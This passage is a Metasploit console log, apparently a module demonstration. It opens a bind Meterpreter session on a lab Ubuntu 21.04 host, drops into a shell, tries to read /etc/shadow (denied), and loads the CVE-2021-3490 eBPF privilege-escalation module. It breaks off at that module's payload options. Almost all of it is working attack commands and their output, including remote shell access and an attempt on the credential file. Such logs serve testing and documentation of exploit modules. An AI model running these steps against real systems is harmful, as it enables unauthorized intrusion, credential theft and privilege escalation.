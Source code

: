 ```

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LPORT  4444             yes       The listen port
   RHOST                   no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set RHOST 192.168.224.221
RHOST => 192.168.224.221
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 192.168.224.221:4444
[*] Sending stage (3012548 bytes) to 192.168.224.221
[*] Meterpreter session 1 opened (192.168.224.128:41855 -> 192.168.224.221:4444) at 2021-08-17 17:37:31 -0500

meterpreter > sysinfo
Computer     : 192.168.224.221
OS           : Ubuntu 21.04 (Linux 5.11.0-16-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > shell
Process 4636 created.
Channel 1 created.
cat /etc/shadow
cat: /etc/shadow: Permission denied
exit
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                    Connection
  --  ----  ----                   -----------                                    ----------
  1         meterpreter x64/linux  test @ ubuntu (uid=1000, gid=1000, euid=1000,  192.168.224.128:41855 -> 192.168.224.221:4444
                                    egid=1000) @ 192.168.224.221                  (192.168.224.221)

msf6 exploit(multi/handler) > use exploit/linux/local/cve_2021_3490_ebpf_alu32_bounds_check_lpe
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/cve_2021_3490_ebpf_alu32_bounds_check_lpe) > show options

Module options (exploit/linux/local/cve_2021_3490_ebpf_alu32_bounds_check_lpe):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
```